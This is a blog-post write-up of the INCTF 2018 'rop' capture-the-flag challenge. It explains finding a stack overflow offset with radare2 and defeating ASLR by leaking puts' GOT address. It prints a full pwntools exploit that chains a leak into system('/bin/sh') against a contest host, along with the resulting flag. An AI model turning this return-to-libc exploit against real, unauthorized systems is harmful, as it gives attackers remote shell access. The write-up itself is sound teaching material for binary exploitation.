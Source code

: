 ```yaml
---
layout: post
title: INCTF Qualifiers rop 400
updated: 2018-12-10 21:00
image: inctf_rop_400.png
tags: [ctf, binary exploit, tech]
---
```


## INCTF Qualifiers - rop [400 pts]

Hey, guy's recently I took part in the qualifiers for INCTF 2018. Here's my shot at a writeup for the rop challenge which was a pwn challenge for 400 points. The challenge is a good one especially for a person who is new to binary exploitation.

### A case of ROP

From the name of the challenge it's kinda obvious that it has something to do with return oriented programming. We are presented with two files, one the binary itself and the other libc. We can confirm that this is indeed a rop challenge by running checksec on the binary we got.

{% highlight shell %}
$ checksec rop
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
{% endhighlight %}

As NX is enabled we cannot place shellcode to execute on the stack. Instead we can use the stack to point to so called rop gadgets in order to achieve what we want. These gadgets are known as rop gadgets. You can learn more about rop [here](https://www.blackhat.com/presentations/bh-usa-08/Shacham/BH_US_08_Shacham_Return_Oriented_Programming.pdf) and [here](https://www.rapid7.com/resources/rop-exploit-explained/).

### The strat

What my plan was or is, was to use ROP and call system with /bin/sh. This should be simple enough if we know 3 things, the offset of the saved instruction pointer, the address of system, the address of the /bin/sh. What we're basically doing is faking a function call, with the parameters and all.

Getting the offset of the saved instruction pointer is rather easy. I did this locally using ragg2 and r2.

{% highlight shell %}
$ ragg2 -P 129 -r > pattern.txt
{% endhighlight %}

Now let's create an r2 profile file, nothing fancy.

{% highlight shell %}
#!/usr/bin/rarun2
stdin=./pattern.txt
{% endhighlight %}

Let's run this and find the offset...

{% highlight shell %}
$ r2 -r profile.rr2 -d rop
Process with PID 2820 started...
= attach 2820 2820
bin.baddr 0x00400000
Using 0x400000
asm.bits 64
[0x7f91a360f210]> dc
Welcome fellow hackers
Can you rop your way to shell ?

child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x00000000 code=128 ret=0
[0x00401201]> pxw 4 @ rsp
0x7ffcb656a488  0x4a414149                                   IAAJ
[0x00401201]> wopO 0x4a414149
24
[0x00401201]
{% endhighlight %}

So we got the offset. Now moving on to the next part.

## ASLR? What ASLR?

So it looks like the server hosting our binary has ASLR enabled, what this means is that libc is actually loaded at different addresses every run. So how do we counter this? Simple, we just need to leak a GOT address. Once we get the GOT address we can make use of that to recalculate our offset of our functions so that it's correct. But won't the program exit? It will, but we can prevent this by recalling the main function. Then we can easily supply our payload.

Using simple disassembly by r2 we can see that we have a puts function. Perfect we can make use of that to leak the address of the GOT. Once we get the leak, we can subtract our assumed aka default address with the leaked address. This is the amount of change in the address which we need to account for and recalculate our payload addresses with. This task seemingly daunting is highly simplified with pwn tools.

## The attack.

First we generate an exploit temaplate using pwn tools...

{% highlight shell %}
$ pwn template rop --host=13.233.178.121 --port=1337 > exploit.py
{% endhighlight %}

Then we add our exploit inbetween the start and interactive function calls.

{% highlight python %}
...truncated...
libc = ELF('./libc.so.6')

r = ROP(exe)
r.call(exe.sym.puts, [exe.got.puts])
r.call(exe.sym.main)

io.recvuntil('?')
io.recvline()

payload_stage1 = fit({
    24: r.chain()
})

io.sendline(payload_stage1)
io.recvline()
putsstr = io.recvline(False)
io.recvline()

puts = u64(putsstr.ljust(8, "\x00"))
log.info("Putstr addr: %#x", puts)

libcbase = puts - libc.sym.puts
libc.address = libcbase

r = ROP(exe)

system = libc.sym.system
binsh = next(libc.search('/bin/sh'))
r.call(system, [binsh])

payload_stage2 = fit({
    24: r.chain()
})

io.recvuntil('?')
io.recvline()
io.sendline(payload_stage2)
io.recvline()

io.interactive()
{% endhighlight %}

Run it...

{% highlight shell %}
$ ./exploit.py
...
$ cat /home/rop/flag.txt
inctf{r0p_r0p_4ll_th3_way_t0_sh311}
{% endhighlight %}

PWNED!!.
